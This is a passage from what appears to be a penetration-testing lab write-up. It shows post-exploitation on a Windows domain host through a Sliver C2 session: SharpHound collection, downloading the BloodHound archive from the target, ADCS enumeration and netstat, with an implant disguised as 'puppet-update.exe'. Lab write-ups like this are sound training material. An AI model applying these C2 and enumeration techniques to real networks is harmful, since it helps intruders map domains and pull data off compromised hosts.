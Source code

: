 ```terminal
2024-10-17T04:34:04.3046319-07:00|INFORMATION|SharpHound Enumeration Completed at 4:34 AM on 10/17/2024! Happy Graphing!
```

Note that this saves the output as a zip on the target machine, we still have to download it:

```terminal
sliver (puppet-mtls) > download 20241017043355_BloodHound.zip

[*] Wrote 13759 bytes (1 file successfully, 0 files unsuccessfully) to /home/xct/vl/puppet/20241017043355_BloodHound.zip
```

Afterwards we immediately remove the files on the target machine. We load the files into our local BloodHound instance but can't see any particularly interesting paths. As a next step, we run the `sa-adcs-enum` bof to enumerate any potential ADCS instances:

```terminal
sa-adcs-enum

[*] Successfully executed sa-adcs-enum (coff-loader)
[*] Got output:

[*] Found 0 CAs in the domain

adcs_enum SUCCESS.
```

There are however none. Additionally we enumerate open ports the local machine via another bof:

```terminal
sliver (puppet-mtls) > sa-netstat

[*] Successfully executed sa-netstat (coff-loader)
[*] Got output:
Processing: 14 Entries
  PROTO SRC                    DST                          STATE                                                                     PROCESS   PID
  TCP  0.0.0.0:135            LISTEN                   LISTENING                                                                             (  856)
  TCP  0.0.0.0:445            LISTEN                   LISTENING                                                                             (    4)
  TCP  0.0.0.0:3389           LISTEN                   LISTENING                                                                             ( 1020)
  TCP  0.0.0.0:5985           LISTEN                   LISTENING                                                                             (    4)
  TCP  0.0.0.0:47001          LISTEN                   LISTENING                                                                             (    4)
  TCP  0.0.0.0:49664          LISTEN                   LISTENING                                                                             (  676)
  TCP  0.0.0.0:49665          LISTEN                   LISTENING                                                                             (  532)
  TCP  0.0.0.0:49666          LISTEN                   LISTENING                                                                             (  732)
  TCP  0.0.0.0:49667          LISTEN                   LISTENING                                                                             (  676)
  TCP  0.0.0.0:49668          LISTEN                   LISTENING                                                                             ( 1844)
  TCP  0.0.0.0:49669          LISTEN                   LISTENING                                                                             ( 1012)
  TCP  0.0.0.0:49673          LISTEN                   LISTENING                                                                             (  656)
  TCP  10.10.144.230:139      LISTEN                   LISTENING                                                                             (    4)
  TCP  10.10.144.230:50522    10.10.144.231:8443     ESTABLISHED                                     C:\ProgramData\Puppet\puppet-update.exe ( 4068)
```